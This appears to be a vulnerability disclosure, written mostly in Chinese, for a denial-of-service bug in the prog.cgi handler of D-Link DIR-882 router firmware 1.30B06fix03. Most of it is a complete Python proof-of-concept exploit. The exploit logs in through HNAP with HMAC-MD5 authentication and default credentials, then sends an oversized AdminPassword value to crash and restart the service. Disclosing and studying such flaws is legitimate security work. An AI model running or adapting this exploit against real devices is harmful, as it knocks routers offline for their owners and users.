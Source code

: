 # Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version
![](pic/version.png "")
图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。

![](pic/web.png "")

在prog.cgi中，我们可以在sub_435220中找到代码细节，程序将SetDeviceSettings/AdminPassword参数获取的内容传递给V4。

![](pic/code1.png "")

V4参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。

![](pic/code2.png "")

在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。

![](pic/code3.png "")

所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())
def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b
for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)
    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)
    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    admin_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDeviceSettings xmlns="http://purenetworks.com/HNAP1/"><DeviceName>DIR-882</DeviceName><PresentationURL>http://dlinkrouter.local/</PresentationURL><CAPTCHA>false</CAPTCHA><ChangePassword>true</ChangePassword><AdminPassword>{admin_password}</AdminPassword></SetDeviceSettings></soap:Body></soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetDeviceSettings"'
    headers['HNAP_AUTH'] = hnap_auth("SetDeviceSettings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:

![](pic/a1.png "")

运行后：

![](pic/a2.png "")

## CVE-ID
unsigned
